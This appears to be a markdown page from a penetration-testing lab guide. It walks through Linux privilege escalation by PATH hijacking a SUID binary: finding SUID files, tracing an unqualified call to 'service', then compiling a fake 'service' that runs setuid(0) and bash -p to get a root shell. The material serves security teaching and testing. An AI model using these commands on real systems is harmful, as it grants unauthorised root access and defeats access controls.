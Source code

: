 ```yaml
---
category: Uncategorized
tags: []
---
```

FINDING VULNERABLE PROGRAMS

The PATH environment variable contains a list of directories where the shell should try to find programs.

If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found.

Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.

If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string.

We can run strings on the executable file to find strings of characters.

We can also use strace to see how the program is executing. Another program called ltrace may also be of use.

Running strings against a file:
```bash - target
strings /path/to/file
```

Running strace against a command:

```bash - target
strace -v -f -e execve <command> 2>&1 | grep exec
```

Running e ltrace against a command:

```bash - target
ltrace <command>
```

1. Find SUID/SGID files on the target:

```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

-rwsr-sr-x 1 root staff 6883 May 14 2017 /usr/local/bin/suid-env

The suid-env file should execute with root user permissions.

2. Run strings on the SUID file:

```bash - target
strings /usr/local/bin/suid-env
```

/lib64/ld-linux-x86-64.so.2
service apache2 start

The file could be trying to run the service program without a full path.

3. We can verify this with strace:

```bash - target
strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service
```

[pid 14395] execve("/bin/sh", ["sh", "-c", "service apache2 start"],

4. Optionally, we can also verify with ltrace:

```bash - target
ltrace /usr/local/bin/suid-env 2>&1 | grep service
```

system("service apache2 start"

This reveals that the system function is being used to execute the service program.

5. Create a file service.c with the following contents:

==service.c==

---
```c - target

int main() {
 setuid(0);

 system("/bin/bash -p");
}
```
---

6. Compile service.c into a file called service:

```bash - target
gcc -o service service.c
```

7. Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:

```bash - target
PATH=.:$PATH /usr/local/bin/suid-env
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root) ...